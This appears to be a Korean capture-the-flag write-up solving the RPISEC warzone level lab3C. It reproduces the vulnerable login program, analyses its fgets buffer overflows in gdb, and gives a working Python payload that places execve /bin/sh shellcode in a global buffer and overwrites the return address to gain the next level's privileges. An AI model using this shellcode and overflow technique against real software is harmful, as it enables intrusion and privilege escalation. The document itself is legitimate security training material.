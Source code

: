 ## 1. 문제 확인
- ID : lab3C
- Target : /level/lab03/lab3C
- flag : /home/lab3B/.pass
```
	lab3C@warzone:/levels/lab03$ ./lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: g4nzzi
	verifying username....

	nope, incorrect username...

	lab3C@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/* gcc -z execstack -fno-stack-protector -o lab3C lab3C.c */

	char a_user_name[100];

	int verify_user_name()
	{
    	puts("verifying username....\n");
    	return strncmp(a_user_name, "rpisec", 6);
	}

	int verify_user_pass(char *a_user_pass)
	{
    	return strncmp(a_user_pass, "admin", 5);
	}

	int main()
	{
    	char a_user_pass[64] = {0};
    	int x = 0;

    	/* prompt for the username - read 100 byes */
    	printf("********* ADMIN LOGIN PROMPT *********\n");
    	printf("Enter Username: ");
    	fgets(a_user_name, 0x100, stdin);

    	/* verify input username */
    	x = verify_user_name();
    	if (x != 0){
        	puts("nope, incorrect username...\n");
        	return EXIT_FAILURE;
    	}

    	/* prompt for admin password - read 64 bytes */
    	printf("Enter Password: \n");
    	fgets(a_user_pass, 0x64, stdin);

    	/* verify input password */
    	x = verify_user_pass(a_user_pass);
    	if (x == 0 || x != 0){
        	puts("nope, incorrect password...\n");
        	return EXIT_FAILURE;
    	}

    	return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 main()
- 전역변수 a_user_name 은 100byte 크기이지만 fgets()함수를 통해 256byte(0x100)를 입력받을 수 있으므로 overflow 발생 가능
```c
	char a_user_name[100];
        ...
        printf("********* ADMIN LOGIN PROMPT *********\n");
        printf("Enter Username: ");
        fgets(a_user_name, 0x100, stdin);
        ...
```
- 지역변수 a_user_pass 는 64byte 크기이지만 fgets()함수를 통해 100byte(0x64)를 입력받을 수 있으므로 overflow 발생 가능
```c
	char a_user_pass[64] = {0};
        ...
        printf("Enter Password: \n");
        fgets(a_user_pass, 0x64, stdin);
        ...
```
- a_user_name 는 초기화되지 않은 전역변수이므로 bss 섹션에 위치하고, 프로그램 실행 시 메모리 주소 확인이 가능함 (a_user_pass 는 지역변수이기 때문에 stack에 위치함)
```
	gdb-peda$ info variables
	All defined variables:

	...
	0x08049c20  stdin@@GLIBC_2.0
	0x08049c24  completed
	0x08049c40  a_user_name
	0x08049ca4  _end
	gdb-peda$
```
- a_user_pass 값에 104byte(AAAA~ZZZZ)를 입력하면 overflow가 발생하고 main()함수 리턴주소 위치가 UUUU(0x55555555) 부분임을 확인할 수 있음
```
	Starting program: /levels/lab03/lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: rpisec
	verifying username....

	Enter Password:	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
        ...
        Stopped reason: SIGSEGV
	0x55555555 in ?? ()
	gdb-peda$
```
```
	[   a_user_pass  ] [dummy] [SFP][RET]
        AAAABBBBCCCCDDDDEEEEFFFF ~~ TTTTUUUUVVVVWWWWXXXXYYYYZZZZ
	                                ^
	|----------  (80byte) --------- |
```
- 쉘코드를 a_user_name 변수에 저장하고 a_user_pass 입력을 통해 overflow를 발생시켜, main()함수 리턴 주소를 쉘코드가 저장된 주소로 변경

<br/><br/>
## 3. Exploit
- verify_user_name() 체크를 통과하기 위해 "rpisec"(6byte) 문자와 쉘코드를 첫번째 입력값으로 넣고, 두번째 입력에서 임의의 80byte 문자와 리턴(쉘코드)주소를 입력함
  (쉘코드 주소는 a_user_name 주소(0x08049c40) + 6byte)
```python
	print("rpisec"+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")

	print("a"*80 + "\x46\x9c\x04\x08")
```
- 작성된 코드를 실행하여 입력 데이터를 만들고, 프로그램 실행 인자로 전달하면 쉘 획득
```
	lab3C@warzone:/levels/lab03$ python /tmp/lab3c.py > /tmp/lab3c_input
	lab3C@warzone:/levels/lab03$ (cat /tmp/lab3c_input; cat) | ./lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password:
	nope, incorrect password...

	id
	uid=1010(lab3C) gid=1011(lab3C) euid=1011(lab3B) groups=1012(lab3B),1001(gameuser),1011(lab3C)
```
